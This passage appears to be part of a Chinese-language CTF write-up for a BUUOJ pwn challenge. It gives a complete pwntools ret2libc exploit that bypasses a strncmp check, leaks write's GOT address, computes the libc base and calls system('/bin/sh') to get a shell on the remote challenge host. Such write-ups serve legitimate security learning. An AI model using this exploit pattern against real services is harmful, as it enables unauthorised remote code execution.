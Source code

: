 2. read函数第三个参数实际上为前一个函数的返回值，可以通过上一次输入\xff，就可利用栈溢出进行ROP

**exp**

payload：越过strncmp函数并溢出

payload2：跳转到write(plt)，构造参数打印got表中地址

payload3：溢出system函数加载地址，设置'/bin/sh'地址为参数，"a"*4为返回地址（随意即可，也可用p32(libc.symbols['exit'])）

[rop链攻击原理与思路(x86/x64)](https://bbs.pediy.com/thread-257238.htm)

```python
# coding=utf-8
from pwn import *
p = remote('node3.buuoj.cn',27126)
libc = ELF("/root/桌面/libc-2.23.so")
elf = ELF("/root/桌面/pwn")

offset = 0xE7
main_addr = 0x8048825
got_write = elf.got['write']
plt_write = elf.plt['write']
system_in_libc = libc.symbols['system']
bin_sh_in_libc = next(libc.search('/bin/sh'))

payload = "\x00"+"\xff"*7
p.sendline(payload)
p.recvuntil("Correct\n")

payload2 = "a"*(offset+4)+p32(plt_write)+p32(main_addr)+p32(1)+p32(got_write)
p.sendline(payload2)
write_addr = u32(p.recv(4))

libcbase = write_addr-libc.symbols['write']
system_addr = libcbase+system_in_libc
bin_sh_addr = libcbase+bin_sh_in_libc

payload3 = "a"*(offset+4)+p32(system_addr)+"a"*4+p32(bin_sh_addr)
p.sendline(payload)
p.sendlineafter("Correct\n",payload3)
p.interactive()
```

3. 执行结果
